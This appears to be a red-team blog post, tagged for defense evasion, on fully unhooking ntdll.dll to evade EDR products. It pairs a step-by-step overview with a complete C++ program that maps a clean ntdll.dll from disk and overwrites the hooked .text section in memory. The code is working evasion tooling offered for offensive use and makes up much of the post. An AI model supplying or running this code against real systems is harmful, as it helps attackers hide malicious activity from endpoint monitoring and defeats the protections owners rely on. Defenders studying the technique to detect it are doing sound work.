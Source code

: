 ```yaml
---
layout: post
title: "how to unhook a dll using c++"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /how-to-unhook-a-dll-using-c++/
---
```


---
layout: post
title: "how to unhook a dll using c++"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /how-to-unhook-a-dll-using-c++/
---

---
description: EDR evasion
---

# Full DLL Unhooking with C++

It's possible to completely unhook any given DLL loaded in memory, by reading the .text section of ntdll.dll from disk and putting it on top of the .text section of the ntdll.dll that is mapped in memory. This may help in evading some EDR solutions that rely on userland API hooking.

## Overview

The process for unhooking a DLL is as follows. Let's assume that the  ntdll.dll is hooked and here is how we could unhook it:

1. Map a fresh copy of ntdll.dll from disk to process memory
2. Find virtual address of the .text section of the hooked ntdll.dll
   1. get ntdll.dll base address
   2. module base address + module's .text section VirtualAddress
3. Find virtual address of the .text section of the freshly mapped ntdll.dll
4. Get original memory protections of the hooked module's .text section
5. Copy .text section from the freshly mapped dll to the virtual address (found in step 3) of the original (hooked) ntdll.dll - this is the meat of the unhooking as all hooked bytes get overwritten with fresh ones from the disk
6. Apply original memory protections to the freshly unhooked .text section of the original ntdll.dll

Below is a simplified graph, illustrating the core concept of the technique, where a hooked .text section of ntdll.dll is replaced with a clean copy of .text section of ntdll.dll from disk:

![](<../../.gitbook/assets/image (570).png>)

## Code

Below code fully unhooks the ntdll.dll, although it could be modified to unhook any other DLL.

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>
#include <psapi.h>

int main()
{
	HANDLE process = GetCurrentProcess();
	MODULEINFO mi = {};
	HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
	
	GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
	LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
	HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
	PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

	for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
		
		if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
		}
	}
	
	CloseHandle(process);
	CloseHandle(ntdllFile);
	CloseHandle(ntdllMapping);
	FreeLibrary(ntdllModule);
	
	return 0;
}
```

{% hint style="warning" %}
Note that the above code does not fix image base relocations. Although ntdll.dll does not have anything to be relocated within its .text section, it may be required when dealing with other dlls.

Thanks [@mrgretzky](https://twitter.com/mrgretzky) for highlighting [this](https://twitter.com/mrgretzky/status/1271348438421159936).

See my notes about PE image relocations: [https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation](https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation)
{% endhint %}
@spotheplanet
